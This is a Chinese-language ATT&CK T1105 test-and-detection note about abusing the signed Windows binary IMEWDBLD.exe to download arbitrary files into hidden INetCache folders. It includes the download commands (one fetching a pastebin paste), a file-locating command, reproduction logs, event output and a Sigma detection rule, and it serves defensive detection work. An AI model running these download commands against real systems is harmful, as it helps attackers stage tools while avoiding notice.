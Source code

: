 # T1105-win-入口工具转移-IMEWDBLD.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例
IMEWDBLD.exe是微软拼音的开放扩展字典模块，主要用来下载字典文件，在Windows中主要存在路径为：

**路径:**
```
-   C:\Windows\System32\IME\SHARED\IMEWDBLD.exe
```
可以通过`C:\Windows\System32\IME\SHARED\IMEWDBLD.exe <URL>`进行下载任意文件，但是下载的路径为隐藏的文件/文件夹

并且路径为`C:\Users\%username%\AppData\Local\Microsoft\Windows\INetCache\IE\[随机值]`;

所以其利用方式是
```
C:\Windows\System32\IME\SHARED\IMEWDBLD.exe https://pastebin.com/raw/tdyShwLw
```

用例：从 Internet 下载文件
所需权限：用户
操作系统：Windows 10

查找下载文件路径：
```
forfiles /P "%localappdata%\Microsoft\Windows\INetCache" /S /M * /C "cmd /c echo @path"

> 参数介绍 
/P 表示开始搜索的路径。默认文件夹是当前工作的 目录 (.)。 
/S 指导forfiles递归到子目录。像"DIR /S"。
/M 根据搜索掩码搜索文件。默认搜索掩码是 '*'。 
/C 表示为每个文件执行的命令。命令字符串应该用双引号括起来。 
@path返回文件的完整路径
```

## 检测日志

windows安全日志

## 测试复现

```bash
C:\Users\liyang>C:\Windows\System32\IME\SHARED\IMEWDBLD.exe https://dldir1.qq.com/qqfile/qq/PCQQ9.5.9/QQ9.5.9.28650.exe

C:\Users\liyang>forfiles /P "%localappdata%\Microsoft\Windows\INetCache" /S /M * /C "cmd /c echo @path"

"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\Content.IE5"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\Low"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\Virtualized"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\container.dat"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\JKCC1BIU"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\DisabledFlights[1].cache"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\dyntelconfig[2].cache"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\RemoteSettings_Installer[1].cache"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\ShippedFlights[1].cache"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\tdyShwLw[1].txt"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\views[1]"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\windows-app-web-link[1].json"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\JKCC1BIU\QQ9.5.9.28650[1].exe" #文件已经被下载成功
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\JKCC1BIU\views[1]"
```

当执行下载任务时，Windows弹窗提示失败，忽略即可。实际上文件已经下载到本地目录中。
## 测试留痕
```yml
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x2278

新进程名称: C:\Windows\System32\IME\SHARED\IMEWDBLD.EXE

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x1ca8

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: C:\Windows\System32\IME\SHARED\IMEWDBLD.exe  https://dldir1.qq.com/qqfile/qq/PCQQ9.5.9/QQ9.5.9.28650.exe
```

## 检测方法/思路
### Sigma规则
```yml
title: IMEWDBLD白名单利用监测
status: experimental
date: 2022/04/20
author: 12306Br0
tags:
- attack.command_and_control
- attack.t1105
references:
- https://lolbas-project.github.io/lolbas/Binaries/IMEWDBLD/
- https://cloud.tencent.com/developer/article/1848645

logsource:
product: windows
category: security
selection:
   Image: C:\Windows\System32\IME\SHARED\IMEWDBLD.EXE
   CommandLine:http*//
condition: selection
falsepositives:
- Unknown
level: medium
```

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

IMEWDBLD.exe

<https://lolbas-project.github.io/lolbas/Binaries/IMEWDBLD/>

IMEWDBLD.exe ByPass360 下载文件

<https://cloud.tencent.com/developer/article/1848645>